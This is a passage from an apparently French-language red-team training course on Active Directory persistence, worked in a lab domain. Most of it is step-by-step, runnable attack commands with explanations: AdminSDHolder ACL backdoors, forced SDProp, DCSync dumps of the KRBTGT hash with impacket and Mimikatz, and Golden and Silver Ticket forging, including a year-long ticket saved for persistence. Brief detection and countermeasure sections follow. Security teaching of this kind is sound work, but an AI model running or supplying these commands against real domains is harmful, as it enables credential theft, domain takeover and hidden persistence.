| `[NTAccount]"redteam\alice"` | Conversion du nom au format `domaine\utilisateur` |
| `[ActiveDirectoryRights]"GenericAll"` | Énumération .NET pour le type de droit |
| `New-Object ActiveDirectoryAccessRule(...)` | Crée une instance d'ACE avec identity, rights, et type |
| `$acl.AddAccessRule($ace)` | Ajoute l'ACE à la collection en mémoire |
| `Set-Acl -Path $path -AclObject $acl` | Écrit la DACL modifiée sur l'objet AD (appel LDAP) |

#### Étape 3 : Attendre SDProp (ou forcer)

```powershell
# Forcer SDProp (nécessite droits admin sur le DC)
# SDProp = Security Descriptor Propagator, s'exécute normalement toutes les 60 min
# [wmiclass]"root\MicrosoftActiveDirectory:Microsoft_ActiveDirectory" : classe WMI qui expose SDProp
#   root\MicrosoftActiveDirectory : namespace WMI pour les opérations AD avancées
#   Microsoft_ActiveDirectory : classe contenant la méthode SDPropagation
# $Invocation.SDPropagation("DC=redteam,DC=lab") : déclenche immédiatement la propagation
#   "DC=redteam,DC=lab" : domaine racine depuis lequel propager
# La DACL du conteneur AdminSDHolder est immédiatement copiée sur tous les comptes protégés
$Invocation = ([wmiclass]"root\MicrosoftActiveDirectory:Microsoft_ActiveDirectory")
$Invocation.SDPropagation("DC=redteam,DC=lab")
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `[wmiclass]"root\MicrosoftActiveDirectory:Microsoft_ActiveDirectory"` | Accède à la classe WMI `Microsoft_ActiveDirectory` qui expose l'interface de gestion AD |
| `root\MicrosoftActiveDirectory` | Namespace WMI contenant les classes de gestion Active Directory |
| `$Invocation.SDPropagation("DC=redteam,DC=lab")` | Appelle la méthode SDPropagation pour forcer la propagation immédiate du Security Descriptor depuis AdminSDHolder vers tous les comptes protégés |
| Nécessite : | Privilèges administrateur sur le DC (accès WMI) |

Par défaut, SDProp s'exécute toutes les **60 minutes**. On peut aussi attendre.

#### Étape 4 : Vérifier l'application

```powershell
# Après SDProp, vérifier que alice a GenericAll sur un compte protégé
# Get-ObjectAcl -Identity "Domain Admins" : lit la DACL du groupe Domain Admins
# Where-Object {$_.SecurityIdentifier -eq (Get-DomainUser alice).objectsid} :
#   filtre les ACE dont le SID du trustee correspond au SID de notre utilisateur alice
#   Get-DomainUser alice : récupère l'objet utilisateur alice
#   .objectsid : propriété contenant le SID (Security Identifier) de l'utilisateur
# Si SDProp a fonctionné, on doit voir une ACE "GenericAll" pour alice sur ce groupe protégé
Get-ObjectAcl -Identity "Domain Admins" | 
    Where-Object {$_.SecurityIdentifier -eq (Get-DomainUser alice).objectsid}
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Get-ObjectAcl -Identity "Domain Admins"` | Lit la DACL du groupe Domain Admins (groupe protégé par SDProp) |
| `Where-Object {$_.SecurityIdentifier -eq ...}` | Filtre pour ne garder que les ACE concernant alice |
| `Get-DomainUser alice` | Récupère l'objet utilisateur alice depuis AD (PowerView) |
| `.objectsid` | Propriété contenant le SID de l'utilisateur (ex: S-1-5-21-...-XXXX) |

Désormais, `alice` peut modifier n'importe quel compte protégé, y compris :
- Changer le mot de passe d'un Domain Admin
- Ajouter un utilisateur au groupe Domain Admins
- Effectuer un DCSync

#### Étape 5 : Backdoor persistante avec AdminSDHolder

```powershell
# Ajouter un utilisateur comme membre de Domain Admins (backdoor persistante)
# Add-DomainGroupMember : PowerView — ajoute un membre à un groupe AD
# -Identity "Domain Admins" : groupe cible (le plus privilégié du domaine)
# -Members "alice" : utilisateur à ajouter comme membre
# -Credential $cred : credentials alternatifs (si la session courante n'a pas les droits)
Add-DomainGroupMember -Identity "Domain Admins" -Members "alice" -Credential $cred

# Ou modifier un groupe protégé (forcer adminCount=1 pour activer la protection SDProp)
# Set-DomainObject : PowerView — modifie les attributs d'un objet AD
# -Identity "Domain Admins" : groupe cible
# -Set @{adminCount=1} : définit l'attribut adminCount à 1 (marque le groupe comme protégé)
#   adminCount=1 : indique à SDProp que cet objet doit être protégé (hériter des permissions AdminSDHolder)
# -Credential $cred : credentials alternatifs
Set-DomainObject -Identity "Domain Admins" -Set @{adminCount=1} -Credential $cred
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Add-DomainGroupMember` | PowerView : ajoute un membre à un groupe de sécurité AD |
| `-Identity "Domain Admins"` | SAMAccountName ou DN du groupe cible |
| `-Members "alice"` | SAMAccountName de l'utilisateur à ajouter |
| `-Credential $cred` | PSCredential alternatif (PowerShell) |
| `Set-DomainObject` | PowerView : modifie les attributs d'un objet AD |
| `-Set @{adminCount=1}` | Définit la propriété `adminCount` à 1, marquant l'objet comme protégé par SDProp |

### 2.3 Détection et contre-mesures

#### Détection

```powershell
# Vérifier les modifications récentes de l'AdminSDHolder (détection de backdoor)
# Get-ADObject : applet du module ActiveDirectory pour interroger un objet AD
# -Identity "CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" : l'objet AdminSDHolder
# -Properties whenChanged, Modified : affiche les timestamps de modification
#   whenChanged : date de la dernière modification (réplication prise en compte)
#   Modified : date de la dernière modification locale
# Permet de détecter si un attaquant a modifié la DACL de l'AdminSDHolder récemment
Get-ADObject -Identity "CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" -Properties whenChanged, Modified

# Vérifier les ACL anormales sur les comptes protégés
# Get-ADUser -Filter {adminCount -eq 1} : liste tous les utilisateurs protégés (adminCount = 1)
#   adminCount = 1 : attribut positionné par SDProp sur les comptes héritant de l'AdminSDHolder
# -Properties memberOf, adminCount : affiche les groupes d'appartenance et le statut adminCount
# Recherche des utilisateurs qui ne devraient PAS être protégés (anomalie)
Get-ADUser -Filter {adminCount -eq 1} -Properties memberOf, adminCount
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Get-ADObject` | Applet PowerShell du module ActiveDirectory pour lire les attributs d'un objet AD |
| `-Identity "CN=AdminSDHolder,..."` | Distinguished Name de l'objet à interroger |
| `-Properties whenChanged, Modified` | Spécifie les propriétés supplémentaires à retourner (non retournées par défaut) |
| `whenChanged` | Timestamp de la dernière réplication/modification |
| `Modified` | Timestamp de la dernière modification locale |
| `Get-ADUser -Filter {adminCount -eq 1}` | Liste les utilisateurs marqués comme protégés par SDProp |
| `adminCount` | Attribut booléen (1 = protégé, 0 = non protégé) |

#### Contre-mesures

| Mesure | Description |
|--------|-------------|
| Audit ACL | Surveiller les modifications de l'AdminSDHolder (Event ID 5136) |
| Restreindre les droits | Limiter le nombre d'administrateurs avec WriteDACL |
| Monitoring SDProp | Vérifier régulièrement les comptes protégés |
| PAM | Utiliser Microsoft Identity Manager (MIM) ou PIM |

### 2.4 TP guidé : Backdoor via AdminSDHolder

#### Objectif
Depuis un compte avec WriteDACL sur l'AdminSDHolder, créer une backdoor persistante sur tous les comptes Domain Admins.

#### Étape 1 : Vérification des droits courants

```powershell
# Identité courante (confirmer sous quel utilisateur on est connecté)
whoami

# Vérifier que l'utilisateur peut modifier AdminSDHolder
# Get-Acl -Path "AD:CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" : lit la DACL de l'AdminSDHolder
# Where-Object {$_.IdentityReference -match "alice"} : filtre les ACE où alice apparaît comme trustee
# Si une ACE avec WriteDACL ou GenericAll apparaît, l'attaque est possible
Get-Acl -Path "AD:CN=AdminSDHolder,CN=System,DC=redteam,DC=lab" | 
    Select-Object -ExpandProperty Access |
    Where-Object {$_.IdentityReference -match "alice"}
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `whoami` | Affiche le nom de l'utilisateur actuel de la session Windows |
| `Get-Acl` | Lit la DACL du conteneur AdminSDHolder |
| `Where-Object {$_.IdentityReference -match "alice"}` | Filtre les ACE où le trustee contient "alice" |

#### Étape 2 : Ajout de GenericAll pour notre utilisateur

```powershell
# Ajout de GenericAll pour notre utilisateur sur le conteneur AdminSDHolder
# Add-ObjectAcl : ajoute une ACE avec GenericAll (controle total)
# -TargetName "AdminSDHolder" : objet cible (conteneur modèle de sécurité)
# -TargetADServer "CN=System,DC=redteam,DC=lab" : conteneur System qui contient AdminSDHolder
# -PrincipalSamAccountName "alice" : utilisateur bénéficiaire de GenericAll
# -Rights All : GenericAll (Full Control) sur l'AdminSDHolder
Add-ObjectAcl -TargetName "AdminSDHolder" `
    -TargetADServer "CN=System,DC=redteam,DC=lab" `
    -PrincipalSamAccountName "alice" `
    -Rights All
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Add-ObjectAcl` | PowerView : ajoute une ACE dans la DACL d'un objet AD |
| `-TargetName "AdminSDHolder"` | Nom de l'objet cible (le conteneur AdminSDHolder) |
| `-TargetADServer "CN=System,..."` | Contexte de recherche AD (conteneur parent) |
| `-PrincipalSamAccountName "alice"` | Trustee qui reçoit la permission |
| `-Rights All` | GenericAll : contrôle total (lecture, écriture, modification ACL, changement propriétaire) |

#### Étape 3 : Forcer la propagation

```powershell
# Forcer SDProp (si admin sur DC) pour déclencher la propagation immédiate
# $Inv = ([wmiclass]"root\MicrosoftActiveDirectory:Microsoft_ActiveDirectory") : accès à la classe WMI AD
# $Inv.SDPropagation("DC=redteam,DC=lab") : force la copie de la DACL de l'AdminSDHolder
# sur tous les objets protégés (Domain Admins, Administrators, etc.)
# Sans cette commande, l'attente est de 60 minutes maximum
$Inv = ([wmiclass]"root\MicrosoftActiveDirectory:Microsoft_ActiveDirectory")
$Inv.SDPropagation("DC=redteam,DC=lab")
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `[wmiclass]"root\MicrosoftActiveDirectory:Microsoft_ActiveDirectory"` | Classe WMI exposant les opérations de gestion Active Directory |
| `SDPropagation("DC=redteam,DC=lab")` | Méthode déclenchant la propagation immédiate du Security Descriptor depuis AdminSDHolder vers tous les objets protégés |

#### Étape 4 : Devenir Domain Admin

```powershell
# Ajouter alice à Domain Admins (escalade finale)
# Add-DomainGroupMember : PowerView — ajoute alice comme membre du groupe Domain Admins
# net group "Domain Admins" alice /add /domain : méthode native Windows (même résultat)
#   net group : commande Windows pour gérer les groupes AD
#   "Domain Admins" : groupe cible
#   alice : utilisateur à ajouter
#   /add : action ajout
#   /domain : opération sur le domaine (pas sur la machine locale)
Add-DomainGroupMember -Identity "Domain Admins" -Members "alice"
net group "Domain Admins" alice /add /domain

# Vérifier l'appartenance au groupe Domain Admins
# net group "Domain Admins" /domain : liste tous les membres du groupe
net group "Domain Admins" /domain
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Add-DomainGroupMember -Identity "Domain Admins" -Members "alice"` | PowerView : ajoute alice au groupe Domain Admins |
| `net group "Domain Admins" alice /add /domain` | Commande native Windows : ajoute alice au groupe AD Domain Admins |
| `/add` | Action : ajouter un membre |
| `/domain` | Cible : le domaine Active Directory (pas la SAM locale) |
| `net group "Domain Admins" /domain` | Commande native : liste les membres du groupe Domain Admins |

---

## 3. Golden Ticket (T1558.001)

### 3.1 Principe : forger un TGT avec le hash KRBTGT

Le **Golden Ticket** est une technique qui permet de forger un **Ticket Granting Ticket (TGT)** Kerberos valide pour n'importe quel utilisateur dans le domaine. Pour cela, il faut connaître le hash NTLM du compte **KRBTGT**.

```
┌──────────────────────────────────────────────────────────┐
│                     Key Distribution Center              │
│  ┌──────────────┐                                       │
│  │  krbtgt hash  │ ──→  Forger TGT valide               │
│  │  = secret clé │      - User: Administrateur          │
│  └──────────────┘      - Domain Admin SID               │
│                        - Valide 10 ans (configurable)    │
└──────────────────────────────────────────────────────────┘
```

#### Composants nécessaires

| Élément | Obtention |
|---------|-----------|
| Hash NTLM du compte KRBTGT | DCSync (nécessite admin DC) |
| SID du domaine | `Get-DomainSID` ou BloodHound |
| Nom du domaine | redteam.lab |
| Identifiant de l'utilisateur cible | RID 500 = Administrator |

### 3.2 Prérequis : dump KRBTGT hash via DCSync

```bash
# Méthode 1 : Impacket secretsdump — extraction du hash KRBTGT via DCSync
# impacket-secretsdump : implémente le protocole DRSUAPI (Directory Replication Service)
#   pour simuler une réplication entre DC et ainsi extraire la base NTDS.dit
# "redteam.lab"/"Administrator":"Passw0rd!"@dc01.redteam.lab :
#   domaine : redteam.lab
#   utilisateur : Administrator (nécessite droits de réplication)
#   mot de passe : Passw0rd!
#   serveur cible : dc01.redteam.lab
# Dans la sortie, chercher la ligne du compte KRBTGT (RID 502) :
impacket-secretsdump "redteam.lab"/"Administrator":"Passw0rd!"@dc01.redteam.lab

# Dans la sortie, chercher la ligne formatée comme suit :
# redteam.lab\krbtgt:<RID>:<LM hash>:<NT hash>:::

# Méthode 2 : Mimikatz (depuis un DC) — utilise lsadump::dcsync
# mimikatz.exe : outil de manipulation mémoire et Kerberos
# "lsadump::dcsync /domain:redteam.lab /user:krbtgt" : demande au DC de répliquer le compte krbtgt
#   /domain:redteam.lab : domaine cible
#   /user:krbtgt : utilisateur spécifique à extraire (pas besoin de dump complet)
# exit : quitte Mimikatz après l'opération
# === SUR LA MACHINE WINDOWS CIBLE ===
# S'assurer d'être dans le dossier contenant mimikatz.exe
cd C:\Windows\Temp\redteam
mimikatz.exe "lsadump::dcsync /domain:redteam.lab /user:krbtgt" exit
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-secretsdump` | Outil d'Impacket qui extrait les hashs NTDS via DCSync (DRSGetNCChanges) |
| `"domaine"/"user":"pass"@dc` | Format d'authentification pour secretsdump |
| `DCSync` | Technique utilisant les droits de réplication AD pour obtenir les hashs sans accès direct au DC |
| `mimikatz.exe "lsadump::dcsync ..."` | Mimikatz — module lsadump avec fonction DCSync (alternatif à secretsdump) |
| `/domain:redteam.lab` | Domaine AD cible |
| `/user:krbtgt` | Compte spécifique à répliquer (inutile de dump tout le domaine si on cherche juste KRBTGT) |

#### Exemple de sortie DCSync

```
Domain : REDTEAM.LAB / S-1-5-21-123456789-123456789-123456789
RID  : 000001f6 (502)
user : krbtgt

Hash NTLM: aaaaaabbbbbbccccccddddddeeeeeeee
lm  : aaaaaabbbbbbccccccddddddeeeeeeee
```

### 3.3 Mimikatz kerberos::golden

```powershell
# Forger un Golden Ticket pour Administrator avec Mimikatz
# mimikatz.exe : outil de manipulation Kerberos
# "kerberos::golden : module de création de tickets Kerberos forgés
#   /domain:redteam.lab : domaine AD cible
#   /sid:S-1-5-21-123456789-123456789-123456789 : SID du domaine (sans le RID final)
#   /target:dc01.redteam.lab : DC cible (optionnel, pour le service krbtgt)
#   /user:Administrator : nom de l'utilisateur à usurper (peut être inexistant)
#   /krbtgt:aaaaaabbbbbbccccccddddddeeeeeeee : hash NTLM du compte KRBTGT (clé de signature du TGT)
#   /id:500 : RID de l'utilisateur (500 = Administrator intégré)
#   /groups:512,513,518,519 : RID des groupes dont l'utilisateur sera membre
#     512 = Domain Admins, 513 = Domain Users, 518 = Schema Admins, 519 = Enterprise Admins
#   /ptt : Pass-The-Ticket — injecte immédiatement le ticket dans la session courante
# exit : quitte Mimikatz
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /user:Administrator /krbtgt:aaaaaabbbbbbccccccddddddeeeeeeee /id:500 /groups:512,513,518,519 /ptt" exit
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `kerberos::golden` | Module Mimikatz qui forge un TGT Kerberos (Golden Ticket) |
| `/domain` | Nom de domaine complet (FQDN) où le ticket sera valide |
| `/sid` | Security Identifier du domaine (sans le RID, ex: ne pas inclure -500) |
| `/target` | Nom du DC (service krbtgt cible pour le ticket) |
| `/user` | Nom d'utilisateur à usurper (n'importe quelle chaîne, même un compte inexistant) |
| `/krbtgt` | Hash NTLM (RC4) du compte KRBTGT — le secret qui signe tous les TGT du domaine |
| `/id` | RID (Relative Identifier) de l'utilisateur (500 = Administrator intégré) |
| `/groups` | Liste des RID des groupes dont le ticket hérite des droits |
| `/ptt` | Pass-The-Ticket : injecte directement le ticket dans le cache LSA (LogonSession) |

#### Paramètres détaillés

| Paramètre | Valeur | Description |
|-----------|--------|-------------|
| `/domain` | `redteam.lab` | Nom de domaine complet |
| `/sid` | `S-1-5-21-...` | SID du domaine (sans le RID) |
| `/user` | `Administrator` | Nom de l'utilisateur à usurper |
| `/krbtgt` | `aaaaaabbb...` | Hash NTLM du compte KRBTGT |
| `/id` | `500` | RID de l'utilisateur (500 = Administrator) |
| `/groups` | `512,513,518,519` | RID des groupes : Domain Admins (512), Domain Users (513), Schema Admins (518), Enterprise Admins (519) |
| `/ptt` | — | Injecte le ticket directement (Pass-The-Ticket) |
| `/ticket` | `ticket.kirbi` | Sauvegarde le ticket dans un fichier |

#### Vérification du ticket

```powershell
# Lister les tickets Kerberos dans la session courante
# klist : outil Windows intégré pour afficher le cache Kerberos (TGT et TGS)
# Vérifie que le Golden Ticket a bien été injecté (/ptt)
klist

# Vérifier l'accès au partage admin du DC (C$)
# dir \\dc01.redteam.lab\c$ : liste le contenu du lecteur C: du DC via SMB
# Si le ticket est valide, l'accès est accordé sans mot de passe
dir \\dc01.redteam.lab\c$

# Planifier une tâche à distance sur le DC (preuve d'exécution de code)
# schtasks /create : crée une tâche planifiée
#   /S dc01.redteam.lab : système cible (le DC)
#   /SC ONCE : exécution unique
#   /ST 12:00 : heure d'exécution
#   /TN Test : nom de la tâche
#   /TR "calc" : programme à exécuter (calculatrice Windows)
schtasks /create /S dc01.redteam.lab /SC ONCE /ST 12:00 /TN Test /TR "calc"

# DCSync avec le ticket (extraire des hashs supplémentaires)
# lsadump::dcsync : module Mimikatz pour DCSync
#   /domain:redteam.lab : domaine cible
#   /user:Administrator : utilisateur dont on veut le hash (ici Administrator lui-même)
lsadump::dcsync /domain:redteam.lab /user:Administrator
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `klist` | Affiche le cache des tickets Kerberos de la session (TGT et TGS) |
| `dir \\dc01.redteam.lab\c$` | Accès au partage administratif C$ du DC via SMB (vérifie les droits) |
| `schtasks /create` | Crée une tâche planifiée sur une machine distante |
| `/S dc01.redteam.lab` | Système cible (serveur distant) |
| `/SC ONCE` | Fréquence : exécution unique |
| `/TN Test` | Nom de la tâche (Task Name) |
| `/TR "calc"` | Programme à exécuter (Task Run) |
| `lsadump::dcsync` | Module Mimikatz pour l'attaque DCSync |

### 3.4 Impacket ticketer.py

```bash
# Créer un Golden Ticket avec Impacket (ticketer.py)
# ticketer.py : outil d'Impacket pour forger des tickets Kerberos (Golden/Silver)
# -nthash aaaaaabbbbbbccccccddddddeeeeeeee : hash NTLM du KRBTGT (nécessaire pour signer le TGT)
# -domain-sid S-1-5-21-123456789-123456789-123456789 : SID du domaine (sans RID)
# -domain redteam.lab : nom de domaine FQDN
# -user Administrator : utilisateur à usurper
# -groups 512,513,518,519 : RID des groupes (Domain Admins, Domain Users, Schema Admins, Enterprise Admins)
# -duration 10 : validité du ticket en heures (10h par défaut)
ticketer.py -nthash aaaaaabbbbbbccccccddddddeeeeeeee \
    -domain-sid S-1-5-21-123456789-123456789-123456789 \
    -domain redteam.lab \
    -user Administrator \
    -groups 512,513,518,519 \
    -duration 10

# Le ticket est sauvegardé dans un fichier .ccache (format Impacket/KRB5)
# Administrator.ccache : fichier contenant le TGT forgé

# Utilisation du ticket : définir la variable d'environnement KRB5CCNAME
# export KRB5CCNAME : pointe vers le fichier .ccache contenant le ticket
# Le système d'exploitation et Impacket utilisent cette variable pour localiser le ticket Kerberos
export KRB5CCNAME=/path/to/Administrator.ccache

# Accès au partage SMB du DC avec authentification Kerberos (sans mot de passe)
# smbclient.py -k : utilitaire SMB d'Impacket avec authentification Kerberos
#   -k : mode Kerberos (utilise le ticket dans KRB5CCNAME)
#   dc01.redteam.lab : serveur cible
#   -no-pass : pas de mot de passe (on utilise le ticket)
smbclient.py -k dc01.redteam.lab -no-pass

# DCSync en utilisant le ticket Kerberos
# secretsdump.py -k : extraction des hashs via Kerberos
#   -k : mode Kerberos
#   redteam.lab/dc01.redteam.lab : domaine/serveur cible
#   -no-pass : pas de mot de passe (utilisation du ticket)
secretsdump.py -k redteam.lab/dc01.redteam.lab -no-pass
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `ticketer.py` | Outil d'Impacket pour forger des tickets Kerberos (Golden/Silver) |
| `-nthash <hash>` | Hash NTLM (RC4) du KRBTGT pour un Golden Ticket, ou du compte machine pour un Silver Ticket |
| `-domain-sid <SID>` | SID du domaine (ex: S-1-5-21-123456789-123456789-123456789) |
| `-domain <domain>` | Nom de domaine FQDN |
| `-user <user>` | Nom d'utilisateur à inscrire dans le ticket |
| `-groups <RID,RID,...>` | RID des groupes à inclure dans le ticket (séparés par des virgules) |
| `-duration <heures>` | Durée de validité du ticket en heures |
| `export KRB5CCNAME=<file>` | Variable d'environnement pointant vers le fichier .ccache contenant le ticket |
| `smbclient.py -k` | Client SMB d'Impacket avec authentification Kerberos |
| `secretsdump.py -k` | DCSync d'Impacket avec authentification Kerberos |

### 3.5 TP guidé : Golden Ticket pour Domain Admin

#### Objectif
Depuis un accès Domain Admin, extraire le hash KRBTGT et forger un Golden Ticket persistant.

#### Étape 1 : Extraire le hash KRBTGT

```bash
# Depuis Kali : DCSync pour extraire le hash KRBTGT
# impacket-secretsdump : extrait les hashs via DRS (Directory Replication Service)
# "redteam.lab"/Administrator:"Passw0rd!"@192.168.56.10 : credentials Admin + IP du DC
impacket-secretsdump "redteam.lab"/Administrator:"Passw0rd!"@192.168.56.10

# Noter le hash NTLM de krbtgt (ligne contenant krbtgt)
# Format : redteam.lab\krbtgt:<RID 502>:<LM hash>:<NT hash>:::
# Le NT hash (5f7d9a7d...) sera utilisé pour signer le Golden Ticket
```

#### Étape 2 : Forger le Golden Ticket (Mimikatz)

```powershell
# Sur une machine Windows du domaine
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /user:Administrator /krbtgt:5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f /id:500 /groups:512,513,518,519 /ptt" exit
```

#### Étape 3 : Forger le Golden Ticket (Impacket)

```bash
# Depuis Kali : forger le Golden Ticket avec Impacket ticketer.py
# ticketer.py : outil d'Impacket pour créer des tickets Kerberos
# -nthash 5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f : hash NTLM du KRBTGT
# -domain-sid S-1-5-21-123456789-123456789-123456789 : SID du domaine redteam.lab
# -domain redteam.lab : FQDN du domaine
# -user Administrator : utilisateur à usurper
# -groups 512,513,518,519 : RID des groupes (Domain Admins, Domain Users, Schema Admins, Enterprise Admins)
# -duration 365 : durée de validité = 365 jours (très longue, typique des Golden Tickets persistants)
ticketer.py -nthash 5f7d9a7d6a8b9c0d1e2f3a4b5c6d7e8f \
    -domain-sid S-1-5-21-123456789-123456789-123456789 \
    -domain redteam.lab \
    -user Administrator \
    -groups 512,513,518,519 \
    -duration 365
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `ticketer.py` | Outil Impacket — forge un TGT (Golden) ou TGS (Silver) Kerberos |
| `-nthash <hash>` | Hash RC4 du KRBTGT (Golden) ou du compte machine (Silver) |
| `-domain-sid <SID>` | SID du domaine (ex: S-1-5-21-123456789-123456789-123456789) |
| `-duration 365` | Durée de validité en heures ou jours — 365 jours pour une persistance maximale |

#### Étape 4 : Utilisation

```bash
# Exporter le ticket Kerberos (définir la variable d'environnement)
# export KRB5CCNAME=Administrator.ccache : pointe vers le fichier .ccache (format MIT KRB5)
# Tous les outils Impacket utiliseront ce ticket pour l'authentification Kerberos
export KRB5CCNAME=Administrator.ccache

# Vérifier l'accès avec crackmapexec (outil de vérification multi-protocole)
# crackmapexec smb : vérifie l'accès SMB
#   -k : mode Kerberos
#   --use-kcache : utilise le cache Kerberos défini par KRB5CCNAME
crackmapexec smb dc01.redteam.lab -k --use-kcache

# Dump des hashes avec le Golden Ticket
# impacket-secretsdump -k : extraction NTDS.dit via DCSync avec Kerberos
#   dc01.redteam.lab : DC cible
#   -no-pass : pas de mot de passe (utilisation du ticket)
impacket-secretsdump -k dc01.redteam.lab -no-pass
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `export KRB5CCNAME=<fichier>` | Variable d'environnement pointant vers le cache Kerberos (format ccache) |
| `crackmapexec smb -k --use-kcache` | Vérifie l'accès SMB avec authentification Kerberos via le cache |
| `impacket-secretsdump -k -no-pass` | DCSync via Kerberos (utilise le Golden Ticket) |

#### Étape 5 : Persistance

```bash
# Sauvegarder le ticket pour réutilisation future (persistance)
# cp : copie du fichier .ccache vers un emplacement de sauvegarde
# Administrator.ccache : ticket Golden actuel
# /tmp/golden_ticket.bak : copie de sauvegarde dans /tmp
# Permet de réutiliser le ticket ultérieurement sans refaire DCSync + forgage
cp Administrator.ccache /tmp/golden_ticket.bak
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `cp Administrator.ccache /tmp/golden_ticket.bak` | Copie de sauvegarde du ticket forgé pour persistance |

### 3.6 Détection et contre-mesures

| Indicateur | Description |
|------------|-------------|
| Event ID 4624 | Logon avec un ticket forgé (durée anormale) |
| Event ID 4672 | Privilèges anormaux assignés |
| Durée du TGT | Un TGT valide > 10h est suspect (sauf config) |
| KRBTGT password change | Le KRBTGT n'est jamais changé par défaut |

#### Contre-mesures

- **Changer le mot de passe KRBTGT deux fois** de suite (tous les 180 jours)
- **Utiliser** `Reset-ADKRBKey` ou le script MS `New-KrbtgtKeys.ps1`
- **Monitoring** des événements 4769, 4770, 4771 (Kerberos Service Ticket Operations)
- **Détection** avec les règles Sigma pour Golden Ticket

---

## 4. Silver Ticket (T1558.002)

### 4.1 Principe : forger un TGS pour un service spécifique

Un **Silver Ticket** est un **Ticket Granting Service (TGS)** forgé pour un service spécifique. Contrairement au Golden Ticket, il ne nécessite pas le hash KRBTGT, mais le hash du compte **machine/service** qui exécute le service cible.

#### Comparaison Golden vs Silver

```
Golden Ticket:
  KRBTGT hash → TGT → n'importe quel service
  Portée : domaine entier
  Prérequis : hash KRBTGT (DCSync)

Silver Ticket:
  Machine/Service hash → TGS → service spécifique
  Portée : service spécifique
  Prérequis : hash du compte machine/service
```

#### Services cibles classiques

| Service | Port | Compte nécessaire | Accès obtenu |
|---------|------|-------------------|--------------|
| CIFS | 445 | DC$ | Accès fichiers partagés |
| HTTP | 80/443 | Serveur web | Accès web |
| LDAP | 389 | DC$ | Interrogation AD |
| HOST | — | Serveur | Tâches planifiées |
| MSSQLSvc | 1433 | SQL Server | Accès base de données |
| WWW | 80/443 | Serveur web | Accès IIS |

### 4.2 Mimikatz kerberos::golden /service:

```powershell
# Forger un Silver Ticket pour le service CIFS (partage de fichiers SMB)
# mimikatz.exe "kerberos::golden ..." : le même module que Golden Ticket mais avec /service et /rc4
#   Attention : c'est toujours kerberos::golden mais avec des paramètres Silver
#   /domain:redteam.lab : domaine de la machine cible
#   /sid:S-1-5-21-123456789-123456789-123456789 : SID du domaine
#   /target:dc01.redteam.lab : nom du serveur cible (hébergeant le service)
#   /service:CIFS : type de service (Common Internet File System = SMB, port 445)
#   /rc4:aaaaaabbbbbbccccccddddddeeeeeeee : hash NTLM du compte MACHINE (DC01$)
#   /user:Administrator : nom d'utilisateur à usurper (peut être fictif)
#   /id:500 : RID 500 = Administrator intégré
#   /groups:512 : Domain Admins (un seul groupe suffit pour un Silver Ticket)
#   /ptt : injection immédiate du ticket dans la session
# Résultat : accès au partage C$ du DC sans TGT ni mot de passe
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /service:CIFS /rc4:aaaaaabbbbbbccccccddddddeeeeeeee /user:Administrator /id:500 /groups:512 /ptt" exit

# Forger un Silver Ticket pour le service HTTP (accès web/IIS)
# Mêmes paramètres mais /service:HTTP pour cibler le service web
# Le hash rc4 est celui du compte qui exécute le service web (souvent le même compte machine)
mimikatz.exe "kerberos::golden /domain:redteam.lab /sid:S-1-5-21-123456789-123456789-123456789 /target:dc01.redteam.lab /service:HTTP /rc4:aaaaaabbbbbbccccccddddddeeeeeeee /user:Administrator /id:500 /groups:512 /ptt" exit
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `kerberos::golden /service:CIFS` | Forge un TGS pour le service CIFS (Silver Ticket). Même module que Golden, mais paramètres différents |
| `/target:dc01.redteam.lab` | Serveur cible hébergeant le service |
| `/service:CIFS` | SPN du service : CIFS (SMB), HTTP, LDAP, HOST, etc. |
| `/rc4:<hash>` | Hash NTLM (RC4) du compte MACHINE ou SERVICE qui exécute le service cible |
| `/groups:512` | RID du groupe Domain Admins (contrôle d'accès local, pas de validation centralisée pour Silver) |

#### Paramètres spécifiques Silver Ticket

| Paramètre | Description |
|-----------|-------------|
| `/target` | Hostname du serveur cible (DC01.redteam.lab) |
| `/service` | Type de service (CIFS, HTTP, LDAP, HOST, etc.) |
| `/rc4` | Hash NTLM du compte **machine** ou **service** |
| `user` | Nom d'utilisateur (peut être n'importe quoi) |
| `/id` | RID (500 pour admin local) |

### 4.3 Impacket ticketer.py

```bash
# Silver Ticket CIFS avec Impacket ticketer.py
# ticketer.py : utilisé ici avec -nthash (hash du compte machine DC01$, pas KRBTGT)
# -nthash aaaaaabbbbbbccccccddddddeeeeeeee : hash NTLM du compte MACHINE (DC01$)
#   Contrairement au Golden Ticket, ce n'est PAS le hash KRBTGT
# -domain-sid S-1-5-21-123456789-123456789-123456789 : SID du domaine
# -domain redteam.lab : nom de domaine
# -user Administrator : utilisateur à usurper
